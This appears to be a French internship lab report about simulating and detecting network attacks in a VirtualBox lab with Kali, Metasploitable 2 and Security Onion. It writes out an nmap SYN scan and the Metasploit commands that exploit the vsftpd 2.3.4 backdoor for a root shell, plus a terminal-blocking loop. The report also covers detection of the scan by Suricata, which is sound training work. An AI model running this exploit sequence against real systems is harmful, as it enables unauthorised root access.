# 🛡️ Projet de Stage — Cybersécurité & Détection d'Intrusions
**Groupe OCP — Khouribga | Environnement SOC Virtuel**

---

## 📌 Présentation du Projet

Ce projet de stage a été réalisé au sein du **Groupe OCP de Khouribga** dans le cadre d'une formation en cybersécurité. L'objectif principal est la mise en place d'un environnement de laboratoire virtuel permettant de simuler des attaques réseau et d'analyser leur détection via un système SIEM/SOC basé sur **Security Onion**.

Le projet couvre l'ensemble de la chaîne d'une attaque : de la reconnaissance réseau jusqu'à l'exploitation d'une vulnérabilité, en passant par la surveillance et la détection côté défenseur.

---

## 🏗️ Architecture de l'Environnement Virtuel

L'environnement est entièrement virtualisé sous **VirtualBox**, composé de trois machines interconnectées :

| Machine | Rôle | Interface | Adresse IP | Réseau |
|---|---|---|---|---|
| Kali Linux | Attaquant | eth0 | 192.168.0.10/24 | Accès par pont |
| Kali Linux | Attaquant | eth1 | 192.168.56.10/24 | Réseau interne lab1 |
| Metasploitable 2 | Cible (victime) | eth0 | 192.168.56.20/24 | Réseau interne lab1 |
| Security Onion | Défenseur / SOC | enp0s3 | 192.168.0.99/24 | Accès par pont |
| Security Onion | Défenseur / SOC | enp0s8 | 192.168.56.30/24 | Réseau interne lab1 |



---

## ⚙️ Outils & Technologies Utilisés

| Catégorie | Outil |
|---|---|
| OS Attaquant | Kali Linux |
| Cible vulnérable | Metasploitable 2 |
| SIEM / SOC | Security Onion |
| Framework d'exploitation | Metasploit Framework v6.4.64 |
| Scanner réseau | Nmap 7.95 |
| Virtualisation | VirtualBox |

---

## 🔬 Phase 1 — Mise en Place et Tests de Connectivité

### 3.3.1 Vérification des Interfaces Réseau

Avant toute attaque, la connectivité entre les machines a été validée. La machine Kali Linux dispose de deux interfaces : `eth0` (réseau pont) et `eth1` (réseau interne lab1 — 192.168.56.10/24).

### Test 1 — Ping vers Metasploitable 2 (192.168.56.20)

Vérification de la connectivité entre Kali Linux et la machine cible via le réseau interne lab1.

```bash
ping 192.168.56.20
```

> Résultat : 3 paquets transmis, 3 reçus, 0% de perte — RTT min/avg/max = 0.858/2.391/4.482 ms ✅



### Test 2 — Ping vers Security Onion via le réseau par pont (192.168.0.99)

Ce test vérifie l'accessibilité de l'interface SOC de Security Onion depuis Kali Linux via le réseau local (eth0).

```bash
ping 192.168.0.99
```

> Résultat : 3 paquets transmis, 3 reçus, 0% de perte — RTT min/avg/max = 1.859/6.069/8.342 ms ✅



---

## 🔍 Phase 2 — Reconnaissance et Scan de Ports

### Scan SYN avec Nmap

Un scan furtif SYN (`-sS`) a été effectué sur la machine cible Metasploitable 2 afin de découvrir les services exposés.

```bash
nmap -sS 192.168.56.20
```

**Services détectés sur Metasploitable 2 :**

| Port | État | Service |
|---|---|---|
| 21/tcp | open | FTP |
| 22/tcp | open | SSH |
| 23/tcp | open | Telnet |
| 25/tcp | open | SMTP |
| 53/tcp | open | DNS |
| 80/tcp | open | HTTP |
| 111/tcp | open | rpcbind |
| 139/tcp | open | netbios-ssn |
| 445/tcp | open | microsoft-ds |
| 512/tcp | open | exec |
| 513/tcp | open | login |
| 514/tcp | open | shell |
| 1099/tcp | open | rmiregistry |
| 1524/tcp | open | ingreslock |
| 2049/tcp | open | NFS |



> **Observation :** La machine cible présente un grand nombre de ports ouverts, typique de Metasploitable 2 qui est volontairement vulnérable à des fins de formation.

---

## 💥 Phase 3 — Exploitation avec Metasploit

### 4.4.1 Lancement de Metasploit Framework

```bash
msfconsole
```



### 4.4.2 Identification de la Vulnérabilité — VSFTPD 2.3.4 Backdoor

Le service FTP (port 21) exécute **vsftpd version 2.3.4**, une version connue pour contenir une backdoor introduite malicieusement en 2011 (**CVE-2011-2523**).

Recherche du module dans Metasploit :

```bash
search vsftpd 2.3.4
```

Résultat :
```
0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03  excellent  No  VSFTPD v2.3.4 Backdoor Command Execution
```



### 4.4.3 Configuration de l'Exploit

Sélection et configuration du module d'exploitation :

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.20
show options
```



**Options configurées :**

| Paramètre | Valeur | Obligatoire | Description |
|---|---|---|---|
| RHOSTS | 192.168.56.20 | ✅ Yes | Adresse IP de la cible |

### 4.4.4 Exécution de l'Exploit

```bash
run
```

L'exploit ouvre une connexion via la backdoor de vsftpd et fournit un accès shell **root** sur la machine cible.

### 4.4.5 Preuves d'Accès au Shell

Une fois connecté, plusieurs commandes ont été exécutées afin de prouver l'accès :

- `ls` : visualiser les fichiers du répertoire courant
- `pwd` : afficher le chemin absolu
- `whoami` : confirmer la connexion en tant qu'utilisateur root



> Résultat de `ls` : Le système de fichiers racine de Metasploitable 2 est entièrement accessible (bin, boot, etc, home, root, srv, usr, var...).

### 4.4.6 Création d'un Fichier de Preuve

Pour démontrer la compromission totale de la machine cible, un fichier `filehacker.txt` a été créé dans le répertoire `/home/` depuis le shell root obtenu via l'exploit.

```bash
cd /home
touch filehacker.txt
echo "cette machine a ete compromise par moi" > filehacker.txt
```



### 4.4.7 Vérification des Permissions et Lecture du Fichier

Une première tentative d'accès depuis un autre utilisateur (`msfadmin`) a échoué avec une erreur "Permission denied". Après modification des permissions par root, l'accès est devenu possible et le contenu du fichier a pu être lu :

```bash
msfadmin@metasploitable:/$ cd /home
# bash: cd: /home: Permission denied

# Après modification des permissions par root :
msfadmin@metasploitable:/home$ cat filehacker.txt
cette machine a ete compromise par moi
```





### 4.4.8 Blocage du Terminal avec une Boucle Infinie

Pour illustrer davantage le contrôle total sur la machine compromise, une boucle infinie a été exécutée depuis le shell root :

```bash
while true; do echo "systeme compromis"; sleep 1; done
```

Cette commande génère en continu le message "systeme compromis" toutes les secondes, bloquant le terminal et simulant un déni de service local.



---

## 🔒 Phase 5 — Détection côté Security Onion

Security Onion surveille le trafic du réseau interne lab1 via l'interface `enp0s8` (192.168.56.30/24). L'IDS **Suricata** analyse le trafic en temps réel et génère des alertes pour chaque activité suspecte détectée.

### 5.1 Alerte sur le Scan Nmap (Scan SYN)

Le scan SYN effectué avec Nmap a été immédiatement détecté par Suricata dans Security Onion.

**Détails de l'alerte :**

| Champ | Valeur |
|---|---|
| Signature | ET SCAN Nmap SYN / ET SCAN Potential VNC Scan 5800-5820 |
| Classification | Attempted Information Leak |
| Source IP | 192.168.56.10 (Kali Linux) |
| Destination IP | 192.168.56.20 (Metasploitable 2) |
| Ports ciblés | 21, 22, 23, 25, 80... (plusieurs ports scannés) |
| Moteur de détection | Suricata |
| Sévérité | Medium |

